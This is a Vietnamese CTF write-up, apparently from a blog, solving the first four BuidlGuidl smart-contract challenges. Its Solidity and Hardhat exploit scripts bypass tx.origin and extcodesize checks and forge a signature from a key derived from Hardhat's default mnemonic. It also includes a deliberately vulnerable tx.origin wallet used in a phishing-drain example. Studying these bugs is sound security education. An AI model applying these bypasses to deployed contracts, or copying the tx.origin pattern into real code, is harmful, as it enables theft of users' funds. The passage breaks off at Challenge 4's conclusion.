


> "Bảo mật Smart Contract không chỉ dừng lại ở việc viết code đúng cú pháp (syntax), mà nằm ở việc thấu hiểu tường tận cách máy ảo Ethereum (EVM) vận hành 'dưới nắp capo'.
>
> Chuỗi bài viết này là tài liệu ghi lại quá trình tôi phân tích và khai thác 12 thử thách thực chiến từ BuidlGuidl CTF. Từ những lỗi logic cơ bản như `tx.origin`, cho đến những kỹ thuật nâng cao như thao túng Gas, tấn công Re-entrancy và tái tạo Block Header bằng RLP encoding.
>
> Đây không chỉ là lời giải, mà là tư duy đằng sau mỗi dòng code khai thác. Hãy cùng mình đi sâu vào ma trận của EVM thông qua 12 thử thách thực chiến từ [BuidlGuidl CTF](https://ctf.buidlguidl.com/)."

## **Challenge #1: The Greeting**

### **Giới thiệu**

Mục tiêu của challenge là làm quen với việc tương tác với smart contract trên mạng Optimism. Challenge này là bước khởi đầu, giúp người chơi làm quen với các công cụ cơ bản như ví điện tử, Etherscan và hiểu được khái niệm cơ bản nhất của blockchain: mọi hành động thay đổi trạng thái đều là một giao dịch và cần phí gas.

*   **Địa chỉ contract:** [`0xfa2Aad507B1Fa963A1fd6F8a491A7088Cd4538A5`](https://optimistic.etherscan.io/address/0xfa2Aad507B1Fa963A1fd6F8a491A7088Cd4538A5)

### **Phân tích Smart Contract**

Smart contract của Challenge 1 khá đơn giản, chỉ có một hàm chính mà người chơi cần chú ý:

```solidity
function registerMe(string memory _name) public {
    require(bytes(_name).length > 0, "Name cannot be empty");
    builderNames[msg.sender] = _name;
    emit BuilderInit(msg.sender, _name);
    INFTFlags(nftContract).mint(msg.sender, 1);
}
```

*   **`registerMe(string memory _name)`**: Đây là hàm công khai (`public`) mà bất kỳ ai cũng có thể gọi.
    *   **`require(bytes(_name).length > 0, "Name cannot be empty")`**: Dòng này kiểm tra để đảm bảo tên người chơi nhập vào không được để trống.
    *   **`players[msg.sender] = _name`**: Lưu tên của người gọi vào một biến mapping `players` với key là địa chỉ ví của họ.
    *   **`emit BuilderInit(msg.sender, _name)`**: Phát ra một sự kiện (event) để thông báo trên blockchain rằng một người chơi mới đã đăng ký.
    *   **`nftContract.mint(msg.sender, 1)`**: Đây là hành động cốt lõi. Sau khi đăng ký, contract sẽ gọi hàm `mint` từ một contract NFT khác (`nftContract`) để trao cho người gọi (`msg.sender`) một NFT. NFT này chính là bằng chứng xác nhận đã hoàn thành thử thách.

**Mục tiêu:** Gọi thành công hàm `registerMe` với một tên bất kỳ để nhận được NFT "flag".

### **Hướng giải quyết trên Etherscan**

Cách tiếp cận đơn giản và trực tiếp nhất là sử dụng giao diện có sẵn của Etherscan để tương tác với contract.

*   **Bước 1:** Truy cập trang contract trên [Optimistic Etherscan](https://optimistic.etherscan.io/address/0x1f2fd5c0238F0C6843534f567afe0D3664c598C1#writeContract).

*   **Bước 2:** Chọn tab **"Write Contract"**.

*   **Bước 3:** Nhấn nút **"Connect to Web3"** và kết nối với ví điện tử của bạn (ví dụ: MetaMask). Đảm bảo ví đang ở đúng mạng **Optimism**.

*   **Bước 4:** Tìm đến mục `1. registerMe`. Trong ô `_name (string)`, nhập vào tên bạn muốn đăng ký.

    

*   **Bước 5:** Nhấn nút **"Write"** và xác nhận giao dịch trong ví của bạn. Giao dịch này sẽ cần một lượng ETH rất nhỏ để làm phí gas.

### **Hướng giải quyết trên môi trường Local**

Mặc dù có thể giải trực tiếp trên Etherscan, chúng ta sẽ thực hiện trên môi trường local của dự án để có thể giải các challenge tiếp theo một cách nhất quán.

1.  **Tạo Script giải:** Tạo file `01_deploy_challenge_1_solution.ts` trong thư mục `packages/hardhat/deploy/` với nội dung sau:
    ```typescript
    import { HardhatRuntimeEnvironment } from "hardhat/types";
    import { DeployFunction } from "hardhat-deploy/types";
    import { Contract } from "ethers";

    const solveChallenge1: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
      const { deployer } = await hre.getNamedAccounts();

      console.log("Solving Challenge 1...");
      const challenge1: Contract = await hre.ethers.getContract("Challenge1", deployer);
      const registerTx = await challenge1.registerMe("The Solver");
      await registerTx.wait();
      console.log("Challenge 1 solved for deployer.");
    };

    export default solveChallenge1;
    solveChallenge1.tags = ["solution1"];
    ```
2.  **Thực thi:** Sau khi đã deploy các contract gốc (`yarn deploy`), chạy lệnh sau để giải Challenge 1:
    ```bash
    yarn deploy --network localhost --tags solution1
    ```
    Thao tác này sẽ đăng ký người chơi và mint thành công NFT flag của Challenge 1.

### **Kết quả**

Sau khi giao dịch được xác nhận thành công trên blockchain, trang CTF sẽ tự động ghi nhận bạn đã hoàn thành challenge. Bằng chứng hoàn thành chính là giao dịch (transaction) đã được thực thi, bạn có thể xem lại nó trên Etherscan hoặc trong lịch sử giao dịch của ví.

### **Kết luận**

Challenge 1 là một bài khởi động hoàn hảo. Nó không yêu cầu kỹ năng lập trình phức tạp mà tập trung vào kỹ năng on-chain cơ bản: đọc hiểu một contract, kết nối ví, và gửi một giao dịch để thay đổi trạng thái. Bài học quan trọng nhất là hiểu được mọi hành động ghi dữ liệu lên blockchain đều cần một khoản phí (gas fee) để thực hiện.

---

## **Challenge #2: Just Call Me Maybe**

### **Giới thiệu**

Challenge 2 đưa chúng ta đến với một trong những "red flag" lớn nhất trong giới bảo mật smart contract: việc sử dụng tx.origin để xác thực. Thoạt nhìn, đoạn code có vẻ vô hại, nhưng nó ẩn chứa một lỗ hổng nghiêm trọng có thể dẫn đến các cuộc tấn công lừa đảo (phishing) tinh vi, chiếm quyền điều khiển và rút cạn tài sản của người dùng.

*   **Địa chỉ contract:** [`0x0b997E0a306c47EEc755Df75fad7F41977C5582d`](https://optimistic.etherscan.io/address/0x0b997E0a306c47EEc755Df75fad7F41977C5582d)

### **Phân tích Lỗ hổng: `tx.origin` vs. `msg.sender`**

Hãy xem xét hàm `justCallMe()` của contract:

```solidity
function justCallMe() public {
    require(msg.sender != tx.origin, "Not allowed");
    INFTFlags(nftContract).mint(tx.origin, 2);
}
```

Mấu chốt của bài toán nằm ở dòng `require(msg.sender != tx.origin)`. Để vượt qua, chúng ta cần hiểu rõ sự khác biệt giữa hai biến toàn cục này:

*   **`msg.sender` (Người gửi trực tiếp):** Là địa chỉ đã gọi hàm *hiện tại*. Nó có thể là một ví người dùng (EOA - Externally Owned Account) hoặc một smart contract khác.
*   **`tx.origin` (Người khởi tạo giao dịch):** Là địa chỉ ví người dùng (EOA) đã **khởi tạo toàn bộ chuỗi giao dịch**. `tx.origin` *luôn luôn* là một EOA, không bao giờ có thể là một contract.


**Ví dụ:**
1.  Nếu **Bạn (EOA)** gọi trực tiếp hàm `justCallMe()`:
    *   `msg.sender` = Địa chỉ của Bạn
    *   `tx.origin` = Địa chỉ của Bạn
    *   $\Rightarrow$ `msg.sender == tx.origin` $\Rightarrow$ Giao dịch thất bại.

2.  Nếu **Bạn (EOA)** gọi **Contract A**, sau đó **Contract A** gọi hàm `justCallMe()`:
    *   `msg.sender` = Địa chỉ của **Contract A**
    *   `tx.origin` = Địa chỉ của **Bạn**
    *   $\Rightarrow$ `msg.sender != tx.origin` $\Rightarrow$ **Giao dịch thành công!**

**Mục tiêu:** Tạo ra một chuỗi gọi gián tiếp (EOA → Contract → Target) để `msg.sender` và `tx.origin` khác nhau.

### **Vấn đề trong thực tế: Tại sao `tx.origin` lại cực kỳ nguy hiểm?**

Trong challenge này, `tx.origin` được dùng để cản trở, nhưng trong thế giới thực, nó thường bị các lập trình viên mới sử dụng sai mục đích để **xác thực quyền sở hữu**, và đây là lúc thảm họa xảy ra.

**Kịch bản tấn công Phishing kinh điển:**

Hãy tưởng tượng một contract ví `MyWallet` có hàm rút tiền như sau:
```solidity
contract MyWallet {
    address owner;
    function withdrawAll() public {
        require(tx.origin == owner, "Only owner can withdraw"); // LỖ HỔNG CHÍ MẠNG
        payable(owner).transfer(address(this).balance);
    }
}
```
Lập trình viên nghĩ rằng chỉ có chủ sở hữu mới rút được tiền. Nhưng một hacker có thể:

1.  **Tạo Contract lừa đảo:** Hacker tạo một contract `Malicious.sol` với một hàm hấp dẫn như `claimFreeNFT()`.
2.  **Dụ dỗ nạn nhân:** Hacker gửi link cho bạn, nói rằng hãy gọi hàm `claimFreeNFT()` để nhận NFT miễn phí.
3.  **Bên trong Contract lừa đảo:** Hàm `claimFreeNFT()` không hề mint NFT, mà nó sẽ thực hiện lệnh gọi đến hàm `withdrawAll()` trong contract `MyWallet` của bạn.
4.  **Kết quả:**
    *   Bạn (nạn nhân) gọi hàm `Malicious.claimFreeNFT()`.
    *   Trong lệnh gọi `MyWallet.withdrawAll()`, `tx.origin` chính là **địa chỉ của bạn**.
    *   Kiểm tra `tx.origin == owner` thành công, và contract `Malicious` rút toàn bộ tiền của bạn về địa chỉ của hacker.

Đây là một dạng tấn công vào **Business Logic**, lợi dụng sự hiểu lầm về cơ chế xác thực. Nó không phải là bug ở tầng EVM, mà là bug trong logic thiết kế của lập trình viên.

Tham khảo thêm về sự khác nhau giữa `tx.origin` và `msg.sender` tại bài viết của [Mario Oettler](https://blockchain-academy.hs-mittweida.de/author/oettlerhs-mittweida-de): [tx.origin and msg.sender](https://blockchain-academy.hs-mittweida.de/courses/solidity-coding-beginners-to-intermediate/lessons/solidity-5-calling-other-contracts-visibility-state-access/topic/tx-origin-and-msg-sender)

### **Góc nhìn của một Auditor**

Khi thực hiện audit một smart contract, việc tìm kiếm `tx.origin` là một trong những ưu tiên hàng đầu.

*   **Red Flag tức thì:** Bất kỳ sự xuất hiện nào của `tx.origin` đều được coi là một dấu hiệu nguy hiểm (red flag). Các công cụ phân tích tĩnh như Slither sẽ ngay lập tức báo cáo "slither-tx-origin: Use of tx.origin for authorization".
*   **Chất vấn mục đích:** Auditor sẽ yêu cầu đội ngũ phát triển giải thích lý do tại sao họ cần sử dụng `tx.origin`. Trong 99.9% trường hợp, không có lý do nào là hợp lý và an toàn.
*   **Đề xuất sửa lỗi:** Luôn luôn đề xuất thay thế `tx.origin` bằng `msg.sender` cho mọi mục đích xác thực. `msg.sender` đảm bảo rằng quyền được cấp cho chính đối tượng (ví hoặc contract) đang tương tác trực tiếp, ngăn chặn các cuộc tấn công gián tiếp.

### **Hướng giải quyết và khai thác**

Để giải quyết, chúng ta cần một contract trung gian để tạo ra sự khác biệt giữa `msg.sender` và `tx.origin`. Toàn bộ quá trình được tự động hóa bằng script deploy của Hardhat.

**1. Viết Contract Tấn Công**

Tạo file `Challenge2Solution.sol` trong thư mục `packages/hardhat/contracts/`. Contract này đóng vai trò là "người trung gian".

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

contract Challenge2Solution {
  // Hàm này nhận địa chỉ của contract mục tiêu và gọi nó
  function indirectCall(address target) public {
    ITarget(target).justCallMe();
  }
}

// Interface để tương tác với Challenge 2
interface ITarget {
  function justCallMe() external;
}
```

**2. Viết Script Deploy và Tấn Công**

Tạo file `02_deploy_challenge_2_solution.ts` trong `packages/hardhat/deploy/`. Script này không chỉ deploy `Challenge2Solution` mà còn thực thi cuộc tấn công ngay lập tức.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract } from "ethers";

const solveChallenge2: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const { deploy } = hre.deployments;

  console.log("Solving Challenge 2...");
  
  // Bước 1: Deploy contract trung gian
  await deploy("Challenge2Solution", { from: deployer, log: true });
  
  // Bước 2: Lấy địa chỉ của các contract cần thiết
  const challenge2 = await hre.deployments.get("Challenge2");
  const solutionContract: Contract = await hre.ethers.getContract("Challenge2Solution", deployer);

  // Bước 3: Thực thi tấn công bằng cách gọi hàm indirectCall
  console.log("Calling indirectCall() to solve the challenge...");
  const tx = await solutionContract.indirectCall(challenge2.address);
  await tx.wait();
  console.log("Challenge 2 solved successfully!");
};

export default solveChallenge2;
solveChallenge2.tags = ["solution2"];
```

**3. Thực thi trên môi trường Local**

Quy trình hoàn chỉnh để giải Challenge 2:
1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 2:** `yarn deploy --network localhost --tags solution2`

Sau khi chạy lệnh cuối cùng, log sẽ xác nhận `Challenge 2 solved successfully!`, và giao diện web sẽ hiển thị dấu tick xanh cho Challenge 2.

### **Kết luận và Cách phòng chống**

*   **Kết luận:** Challenge 2 đã minh họa một cách hoàn hảo sự nguy hiểm của việc sử dụng `tx.origin`. Lỗ hổng này không chỉ là một vấn đề lý thuyết mà đã gây ra thiệt hại thực tế trong quá khứ.
*   **Cách phòng chống:** Cực kỳ đơn giản: **TUYỆT ĐỐI KHÔNG SỬ DỤNG `tx.origin` ĐỂ XÁC THỰC.** Luôn sử dụng `msg.sender` để kiểm tra quyền của người gọi trực tiếp. Điều này đảm bảo rằng chỉ những tài khoản được ủy quyền mới có thể thực hiện các hành động nhạy cảm, bất kể chúng được gọi trực tiếp hay thông qua một contract trung gian.

---

## **Challenge #3: Empty contract?**

### **Giới thiệu**

Challenge 3 xây dựng dựa trên kiến thức của Challenge 2 nhưng thêm vào một rào cản tưởng chừng như không thể vượt qua. Nó buộc chúng ta phải khai thác một đặc tính rất đặc biệt của EVM: trạng thái của một smart contract **trong quá trình nó đang được tạo ra**.

*   **Địa chỉ contract:** [`0x03bF70f50fcF9420f27e31B47805bbd8f2f52571`](https://optimistic.etherscan.io/address/0x03bF70f50fcF9420f27e31B47805bbd8f2f52571)

### **Phân tích Lỗ hổng:**

Hãy xem xét hàm `mintFlag()` của contract `Challenge3`:

```solidity
function mintFlag() public {
    require(msg.sender != tx.origin, "Not allowed");

    uint256 x;
    assembly {
        x := extcodesize(caller())
    }

    require(x == 0, "Size not zero");

    INFTFlags(nftContract).mint(tx.origin, 3);
}
```

Hàm này đặt ra hai yêu cầu mâu thuẫn nhau:

1.  **`require(msg.sender != tx.origin)`**: Giống hệt Challenge 2, điều này yêu cầu `mintFlag()` phải được gọi bởi một **smart contract**.
2.  **`require(x == 0, "Size not zero")`**: Dòng code assembly `x := extcodesize(caller())` lấy kích thước bytecode của người gọi (`msg.sender`). Yêu cầu này đòi hỏi kích thước code của contract gọi đến phải bằng **0**.

Đây chính là nghịch lý: Làm thế nào một smart contract có thể gọi một hàm trong khi kích thước code của nó lại bằng 0?

**Câu trả lời nằm ở quy trình triển khai một smart contract:**

Khi bạn deploy một contract, giao dịch đó sẽ thực thi hàm `constructor` trước. **Trong suốt quá trình `constructor` đang chạy, bytecode của contract vẫn chưa được ghi vào địa chỉ của nó trên blockchain.** Vì vậy, nếu chúng ta thực hiện một lệnh gọi ra bên ngoài từ bên trong `constructor`, `extcodesize` của địa chỉ contract của chúng ta tại thời điểm đó sẽ trả về giá trị là **0**.


**Mục tiêu:** Tạo một contract tấn công và gọi hàm `mintFlag()` của Challenge 3 từ bên trong `constructor` của nó.

Tham khảo thêm bài viết về Etherum của **Marco López** tại [EIP-7702: Ethereum's Next Step Toward a More Flexible Account Model](https://decentralizedsecurity.es/eip-7702-ethereums-next-step-toward-a-more-flexible-account-model).

### **Vấn đề trong thực tế và Góc nhìn của Auditor**

*   **Mục đích của Lập trình viên:** Một lập trình viên có thể sử dụng check `extcodesize(msg.sender) == 0` với ý định tốt là chỉ cho phép các ví người dùng (EOA) tương tác, nhằm ngăn chặn các bot (dưới dạng smart contract) tham gia vào các đợt airdrop, mint NFT giới hạn, hoặc presale.
*   **Tại sao đây là một phương pháp tồi:** Như chúng ta đã thấy, check này có thể dễ dàng bị vượt qua. Nó tạo ra một cảm giác an toàn giả tạo.
*   **Góc nhìn của Auditor:** Khi audit, việc phát hiện `extcodesize` được sử dụng cho mục đích xác thực là một "red flag".
    *   **Rủi ro:** Logic nghiệp vụ (business logic) của ứng dụng có thể bị phá vỡ. Các biện pháp chống bot trở nên vô hiệu.
    *   **Đề xuất sửa lỗi:** Auditor sẽ đề xuất không nên dựa vào `extcodesize` để phân biệt EOA và contract. Một phương pháp đáng tin cậy hơn (dù không hoàn hảo) là `require(tx.origin == msg.sender)`. Tuy nhiên, cách tốt nhất thường là không chặn contract hoặc sử dụng các cơ chế phức tạp hơn như chữ ký số (signatures) hoặc danh sách trắng (whitelists) được quản lý off-chain.

### **Hướng giải quyết và khai thác**

Chúng ta sẽ tạo một contract `Challenge3Solution` mà logic tấn công được đặt ngay trong `constructor`. Hành động deploy contract này cũng chính là hành động giải challenge.

**1. Viết Contract Tấn Công**

Tạo file `Challenge3Solution.sol` trong `packages/hardhat/contracts/`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;

// Interface để tương tác với Challenge 3
interface ITarget {
  function mintFlag() external;
}

contract Challenge3Solution {
  // Toàn bộ logic tấn công nằm ở đây
  constructor(address target) {
    // Khi constructor này chạy, extcodesize(address(this)) == 0
    // msg.sender sẽ là địa chỉ của contract này, tx.origin là ví của chúng ta
    ITarget(target).mintFlag();
  }
}
```

**2. Viết Script Deploy và Tấn Công**

Tạo file `03_deploy_challenge_3_solution.ts` trong `packages/hardhat/deploy/`. Script này chỉ cần deploy contract `Challenge3Solution` là đủ.

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";

const solveChallenge3: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  const { deploy } = hre.deployments;

  console.log("Solving Challenge 3...");

  // Lấy địa chỉ của contract Challenge3 đã được deploy trước đó
  const challenge3 = await hre.deployments.get("Challenge3");

  // Deploy contract solution. Hành động deploy này sẽ kích hoạt constructor,
  // và do đó, giải được challenge.
  await deploy("Challenge3Solution", {
    from: deployer,
    args: [challenge3.address], // Truyền địa chỉ của Challenge3 vào constructor
    log: true,
  });

  console.log("Challenge 3 solved successfully!");
};

export default solveChallenge3;
solveChallenge3.tags = ["solution3"];
```

**3. Thực thi trên môi trường Local**

Quy trình hoàn chỉnh để giải Challenge 3:
1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 3:** `yarn deploy --network localhost --tags solution3`

Sau khi chạy lệnh cuối cùng, log sẽ xác nhận `Challenge 3 solved successfully!` và giao diện web sẽ hiển thị dấu tick xanh cho Challenge 3.

### **Kết luận**

Challenge 3 là một bài học sâu sắc về vòng đời của một smart contract. Nó dạy chúng ta rằng trạng thái của một contract không phải lúc nào cũng tĩnh và việc hiểu rõ các giai đoạn (creation, runtime, destruction) là cực kỳ quan trọng để phát hiện các lỗ hổng tinh vi. Lời khuyên cốt lõi một lần nữa được củng cố: **Không bao giờ dùng `extcodesize` như một cơ chế xác thực đáng tin cậy.**

---

## **Challenge #4: Who can sign this?**

### **Giới thiệu**

Challenge 4 chuyển trọng tâm từ các lỗ hổng logic trong Solidity sang một lĩnh vực cốt lõi của blockchain: mật mã học và chữ ký số (ECDSA). Bài toán này không yêu cầu chúng ta tìm một bug, mà là thực hiện một cuộc "điều tra" để tái tạo lại một khóa bí mật từ những thông tin có sẵn, sau đó sử dụng khóa đó để ký một thông điệp và xác thực quyền hạn.

*   **Địa chỉ contract:** [`0x9c4A48Dd70a3219877a252E9a0d45Fc1Db808a1D`](https://optimistic.etherscan.io/address/0x9c4A48Dd70a3219877a252E9a0d45Fc1Db808a1D)

### **Phân tích lỗ hổng: Một câu đố Mật mã**

Hãy cùng phân tích hàm `mintFlag()`:
```solidity
function mintFlag(address _minter, bytes memory signature) public {
    // 1. Người ký có phải là một "minter" hợp lệ không?
    require(isMinter[_minter], "Not a minter");

    // 2. Tạo lại message hash y hệt trong smart contract
    bytes32 message = keccak256(abi.encode("BG CTF Challenge 4", msg.sender));
    bytes32 hash = message.toEthSignedMessageHash();

    // 3. Khôi phục lại địa chỉ người ký từ chữ ký
    address recoveredSigner = hash.recover(signature);

    // 4. Địa chỉ khôi phục được có khớp với địa chỉ minter đã cung cấp không?
    require(recoveredSigner == _minter, "Invalid signature");

    // 5. Mint cờ
    INFTFlags(nftContract).mint(msg.sender, 4);
}
```
Để giải được, chúng ta phải vượt qua hai rào cản lớn:
1.  **`_minter` phải là ai?** Chúng ta không phải là owner của contract nên không thể tự thêm mình làm minter. Chúng ta phải tìm ra ai đã được thêm vào danh sách `isMinter`.
2.  **Làm sao có được `signature`?** Chúng ta phải có được khóa bí mật (private key) của `_minter` đó để có thể tạo ra chữ ký hợp lệ cho `hash`.

**Cuộc điều tra bắt đầu:**
Bằng cách xem lại script deploy gốc của toàn bộ dự án (`00_deploy_ctf_contracts.ts`), chúng ta tìm thấy manh mối quan trọng:

```typescript
// ...
const challenge4Contract = await hre.ethers.getContract<Contract>("Challenge4", deployer);
const hAccounts = hre.config.networks.hardhat.accounts as HardhatNetworkHDAccountsConfig;
const derivationPath = "m/44'/60'/0'/0/12";
const challenge4Account = HDNodeWallet.fromMnemonic(Mnemonic.fromPhrase(hAccounts.mnemonic), derivationPath);

await challenge4Contract.addMinter(challenge4Account.address);
// ...
```
**Manh mối đã rõ:**
*   **Minter là ai?** Là một tài khoản được tạo ra từ ví HD (Hierarchical Deterministic Wallet).
*   **Khóa bí mật ở đâu?** Nó được sinh ra từ cụm từ ghi nhớ (mnemonic) mặc định của Hardhat, thông qua một đường dẫn derivation path cụ thể là `m/44'/60'/0'/0/12`.

**Mục tiêu:** Tái tạo lại ví của `minter` từ mnemonic và derivation path, sau đó dùng nó để ký thông điệp và gọi `mintFlag`.

### **Góc nhìn của một Auditor**

Đây là một ví dụ điển hình về **lỗ hổng do cấu hình yếu hoặc sử dụng các giá trị mặc định không an toàn**.
*   **Vấn đề thực tế:** Trong sản phẩm thật, nếu một dự án sử dụng các cụm từ ghi nhớ công khai (như mnemonic mặc định của Hardhat/Ganache) hoặc các phương pháp tạo khóa có thể dự đoán được, kẻ tấn công có thể dễ dàng tái tạo lại các ví quản trị (admin), ví deployer, hoặc các ví có đặc quyền khác để chiếm quyền điều khiển hệ thống.
*   **Red Flag:** Khi audit, việc phát hiện bất kỳ khóa bí mật, mnemonic, hoặc secret nào được hardcode trong code hoặc script deploy là một lỗ hổng nghiêm trọng (Critical). Các giá trị nhạy cảm này phải được quản lý thông qua các biến môi trường (`.env`) và không bao giờ được commit lên repository công khai.
*   **Bài học:** An ninh của một hệ thống không chỉ nằm ở code Solidity, mà còn ở toàn bộ quy trình quản lý khóa và triển khai (DevSecOps).

### **Hướng giải quyết và khai thác**

Thách thức lớn nhất của bài toán này nằm ở việc tái tạo lại chính xác 100% quy trình tạo hash và chữ ký ở phía client (bằng `Ethers.js`) để nó khớp với quy trình ở phía smart contract.

**Điểm mấu chốt: `abi.encode` vs. `abi.encodePacked`**

Smart contract sử dụng `abi.encode`, một hàm mã hóa chính thức, sẽ thêm padding 32-byte cho mỗi tham số. Trong khi đó, nhiều hàm tiện ích trong Ethers.js như `solidityPacked` lại tương đương với `abi.encodePacked`, chỉ đơn giản là ghép các bytes lại với nhau. Sự khác biệt này tạo ra hai chuỗi bytes hoàn toàn khác nhau, dẫn đến hash sai và chữ ký không hợp lệ.

Để giải quyết, chúng ta phải sử dụng `ethers.AbiCoder` để mô phỏng chính xác hành vi của `abi.encode`.

**1. Viết Script Deploy và tấn công**

Tạo file `04_deploy_challenge_4_solution.ts` trong `packages/hardhat/deploy/` với nội dung như sau:

```typescript
import { HardhatRuntimeEnvironment } from "hardhat/types";
import { DeployFunction } from "hardhat-deploy/types";
import { Contract, HDNodeWallet, Mnemonic, ethers } from "ethers";
import { HardhatNetworkHDAccountsConfig } from "hardhat/types";

const solveChallenge4: DeployFunction = async function (hre: HardhatRuntimeEnvironment) {
  const { deployer } = await hre.getNamedAccounts();
  
  // Bước 1: Tái tạo lại ví của minter từ mnemonic và derivation path
  const hAccounts = hre.config.networks.hardhat.accounts as HardhatNetworkHDAccountsConfig;
  const derivationPath = "m/44'/60'/0'/0/12";
  const minterWallet = HDNodeWallet.fromMnemonic(Mnemonic.fromPhrase(hAccounts.mnemonic), derivationPath);

  // Bước 2: Tái tạo lại hash một cách chính xác
  // 2a: Sử dụng AbiCoder để mô phỏng `abi.encode`
  const encodedMessage = ethers.AbiCoder.defaultAbiCoder().encode(
      ["string", "address"],
      ["BG CTF Challenge 4", deployer]
  );
  // 2b: Hash lần đầu để có `message`
  const messageHash = ethers.keccak256(encodedMessage);
  // 2c: Thêm prefix và hash lần hai để có `hash` cuối cùng (tương đương toEthSignedMessageHash)
  const finalHashToSign = ethers.hashMessage(ethers.getBytes(messageHash));

  // Bước 3: Ký vào hash cuối cùng
  const signatureObject = minterWallet.signingKey.sign(finalHashToSign);
  const signature = ethers.Signature.from(signatureObject).serialized;

  // Bước 4: Gọi hàm mintFlag với các tham số đã chuẩn bị
  const challenge4: Contract = await hre.ethers.getContract("Challenge4", deployer);
  await challenge4.mintFlag(minterWallet.address, signature);

  console.log("Challenge 4 solved successfully!");
};

export default solveChallenge4;
solveChallenge4.tags = ["solution4"];
```

**2. Thực thi trên môi trường Local**

1.  **Khởi động blockchain local:** `yarn chain`
2.  **Deploy các challenge gốc:** `yarn deploy --network localhost`
3.  **Giải Challenge 1 (điều kiện tiên quyết):** `yarn deploy --network localhost --tags solution1`
4.  **Giải Challenge 4:** `yarn deploy --network localhost --tags solution4`

Sau khi chạy lệnh cuối cùng, log sẽ xác nhận `Challenge 4 solved successfully!`, và giao diện web sẽ hiển thị dấu tick xanh.

### **Kết luận**

